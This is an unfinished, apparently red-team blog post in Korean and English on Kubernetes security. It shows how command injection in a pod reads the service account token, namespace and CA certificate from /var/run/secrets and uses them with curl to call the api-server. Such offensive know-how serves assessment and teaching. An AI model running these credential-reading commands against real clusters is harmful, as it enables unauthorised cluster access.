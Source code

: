 ```yaml
---
title: "[K8S] Security"
# author: wrkholic84
date: 2024-02-08 00:06:00 +0900
categories: [Development, Kubernetes]
tags: [kubernetes, security]
math: true
mermaid: true
# image:
#   path: /commons/devices-mockup.png
#   width: 800
#   height: 500
#   alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


# Kubernetes for RedTeam
Kubernetes에 대한 경험과 이해가 다르고,
보안 취약점 점검 시 관련 내용에 대한 접근이 어려운 이유로,
kubernetes 취약점 발견과 연구를 충분히 수행하기에 어려움이 있음  
이를 위해, 다음 과정을 통해 kubernetes에 대한 정리와 점검 방법에 대한 평준화를 이루고자 함

Differences in experience and understanding of Kubernetes, along with difficulties in addressing related content during security vulnerability assessments, pose challenges in adequately conducting discovery and research of Kubernetes vulnerabilities.  
To address this, the aim is to achieve a standardization of organization and inspection methods for Kubernetes through the following process.

## Prerequisite Knowledge (Introduction - What we don't know)
### 0. Abstract Concept
![00](/assets/images/posts/20221226Security/00.png)
일반적으로 Kubernets 환경에 구축된 서비스는 위 그림과 같이 apiserver와 service 두 개의 접근 경로를 가진다.  
1. Apiserver는 kubernetes 환경 전체를 제어
2. Service(kuberntes resource)는 웹서비스를 인터넷과 연결해주는 역할

Typically, Application deployed in a Kubernetes environment have two access points, as shown in the figure above: the api-server and the service.

1. Api-server controls the entire Kubernetes environment.
2. Service (a Kubernetes resource) connects the web service to the internet as NodePort or LoadBalancer.

### 1. Api-server
apiserver는 kubernetes 자체라고 봐도 무방함.  
api를 호출하는 방식으로 kubernetes 전체 환경을 제어할 수 있음. api 호출은 authn > authz > Admission Control 3단계에 걸쳐 진행.
#### 1.1. How to access api-server
##### 1.1.1. User Certificate
사용자 인증서와 키로 apiserver를 호출 할 수 있음
```bash
ubuntu@mypc:~$ curl -k --cert ./user.crt --key ./user.key https:/kubernetes:6443/api
{
  "kind": "APIVersions",
  "versions": [
    "v1"
  ],
  "serverAddressByClientCIDRs": [
    {
      "clientCIDR": "0.0.0.0/0",
      "serverAddress": "x.x.x.x:6443"
    }
  ]
}
```
사용자 인증서와 키는 base64로 인코딩되어 있을 수도 있음
```bash
ubuntu@mypc:~$ cat ./user.crt | base64 | tr -d "\n" 
LS0tLS1C...
ubuntu@mypc:~$ cat "LS0tLS1C..." | base64 -d
-----BEGIN CERTIFICATE-----
MIIDTzCCAjegAwIBAgIQYPmmYnZ...
-----END CERTIFICATE-----
```
##### 1.1.2. Service Account
SA > export bearer > Kubectl


## What can we do?
### Command Injection
#### get Kubernetes Information from env
```bash
Command Injection : env | grep -i kubernetes
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_SERVICE_HOST=10.96.0.1
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
KUBERNETES_PORT_443_TCP_PROTO=tcp
```
#### get Kubernetes Information from nslookup
```bash
Command Injection : nslookup kubernetes.default.svc
Server:		10.96.0.10
Address:	10.96.0.10#53

Name:	kubernetes.default.svc.cluster.local
Address: 10.96.0.1
```
#### get Kubernetes Information from ServiceAccount
```bash
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUz ...
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
hack8s
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
-----BEGIN CERTIFICATE-----
MIIDB ...
```

#### 위에서 얻은 정보를 조합하여 api 호출 가능
```bash
Command Injection : curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

### SSRF
### 3. Service




